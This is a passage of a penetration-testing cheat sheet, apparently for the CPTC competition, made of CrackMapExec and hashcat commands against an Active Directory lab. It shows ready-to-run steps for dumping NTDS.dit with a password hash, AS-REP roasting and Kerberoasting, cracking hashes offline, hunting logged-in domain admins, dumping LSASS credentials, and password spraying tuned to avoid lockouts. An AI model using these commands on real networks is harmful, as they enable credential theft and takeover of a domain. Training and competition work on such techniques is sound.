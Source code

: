 ```bash
# 6. Dump NTDS.dit
crackmapexec smb 10.10.10.1 -u 'dadmin' -H '...' --ntds --user '*'
```

### Scenario 2: Stealth Enumeration (No Admin Rights)
```bash
# Low-privilege enumeration
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --shares
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --sessions
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --loggedon-users
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --asreproast asrep.txt
crackmapexec ldap 10.10.10.1 -u 'jsmith' -p 'Summer2024!' --kerberoasting kerb.txt

# Crack hashes offline
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt
hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt
```

### Scenario 3: Finding High-Value Targets
```bash
# Find domain admins currently logged in
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --sessions | grep -i "domain admins\|enterprise admins"

# Check session data
crackmapexec smb 10.10.10.0/24 -u 'jsmith' -p 'Summer2024!' --loggedon-users | grep -i admin

# Prioritize these hosts for credential dumping
crackmapexec smb 10.10.10.75 -u 'localadmin' -p 'Found_Password' -M lsassy
```

---

## Operational Security (OpSec) for CPTC

### Avoid Account Lockouts
```bash
# ALWAYS check password policy first
crackmapexec smb 10.10.10.1 -u 'guest' -p '' --pass-pol

# Note: Lockout threshold and observation window
# If threshold = 5, use max 3 attempts per spray

# Safe password spraying
crackmapexec smb 10.10.10.0/24 -u users.txt -p 'SinglePassword1!' --continue-on-success
# Wait 30+ minutes before next spray

# Use --jitter for realistic delays
crackmapexec smb 10.10.10.0/24 -u users.txt -p 'Password1!' --jitter 10
```
